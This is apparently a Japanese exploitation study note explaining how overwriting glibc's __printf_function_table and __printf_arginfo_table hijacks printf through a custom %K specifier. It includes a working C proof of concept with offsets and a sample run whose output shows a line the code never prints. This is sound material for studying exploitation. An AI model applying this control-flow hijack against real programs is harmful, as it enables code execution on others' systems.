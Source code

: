 rdiを操作するのはキツそうなのでone gadgetなりいい感じのgadgetが必要。

### 手順
\__printf_function_tableを読み込み可能領域に、
\__printf_arginfo_tableを自身の用意した関数テーブルを指すようにすれば、
書式文字列を用いてprintf()を行うことで、対象の関数テーブルの値が呼ばれる。

```c
#include <stdio.h>
#include <stdlib.h>
// differ in each environment
unsigned long off_puts = 0x80ed0;
unsigned long off_printf_function_table = 0x7ffff7fa89c8 - 0x7ffff7d8d000;
unsigned long off_printf_arginfo_table = 0x7ffff7fa78b0 - 0x7ffff7d8d000;

void target1(unsigned long arg1)
{
    printf("In target1(): arg1=0x%lx\n", arg1);
    return;
}

void main()
{
    printf("Start of main()\n");

    void* libc_base = &puts - (unsigned long)off_puts;
    printf("libc_base = %p\n",libc_base);
    void* printf_function_table = libc_base + off_printf_function_table;
    void* printf_arginfo_table = libc_base + off_printf_arginfo_table;

    printf("__printf_function_table = %p\n",printf_function_table);
    printf("__printf_arginfo_table = %p\n",printf_arginfo_table);

    printf("%K\n");
    // prepare for exploit
    void* area_readable = malloc(0x100);
    void* fake_arginfo_table = malloc(0x400); // enough size

    *(unsigned long*)(fake_arginfo_table + 'K'*8) = target1;

    // overwrite symbols
    *(unsigned long*)printf_function_table = (unsigned long)area_readable;
    *(unsigned long*)printf_arginfo_table = (unsigned long)fake_arginfo_table;

    printf("%K\n"); // exploit
    puts("End of main()");
    return;
}
```

```
$ ./printf_arginfo_table 
Start of main()
libc_base = 0x7f5b27122000
__printf_function_table = 0x7f5b2733d9c8
__printf_arginfo_table = 0x7f5b2733c8b0
%K
after overwrite
In target1(): arg1=0x7fffa1fceda0
In target1(): arg1=0x7fffa1fceda0
%K
```
2回呼ばれているのは
printf_positionalとその中で呼ばれる\__parse_one_specmbでそれぞれ実行されている。
